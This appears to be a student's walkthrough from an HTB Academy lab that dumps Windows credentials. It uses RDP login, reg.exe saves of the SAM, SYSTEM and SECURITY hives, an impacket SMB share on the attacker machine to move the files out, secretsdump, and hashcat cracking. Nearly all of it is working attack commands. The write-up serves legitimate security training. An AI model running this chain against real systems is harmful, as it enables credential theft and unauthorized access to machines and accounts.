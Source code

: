 
opening a RDP sesh to the target machine
```sh
xfreerdp /v:10.129.199.107 /u:Bob /p:HTB_@cademy_stdnt!
```

use reg.exe to save the registry hives
```cmd
reg.exe save hklm\sam C:\sam.save
reg.exe save hklm\system C:\system.save
reg.exe save hklm\security C:\security.save
```

create a share on our attacker machine
```
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py -smb2support CompData /home/htb-ac-1272997/
```

move the files to our attacker machine share
```
C:\> move sam.save \\10.10.15.16\CompData
C:\> move security.save \\10.10.15.16\CompData
C:\> move system.save \\10.10.15.16\CompData
```

dump the hashes with secretdump
```
python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
```

save the hashes to a text file
```
sudo vim hashestocrack.txt
```
run hashcat on the hashes
```
sudo hashcat -m 1000 hashestocrack.txt /usr/share/wordlists/rockyou.txt
```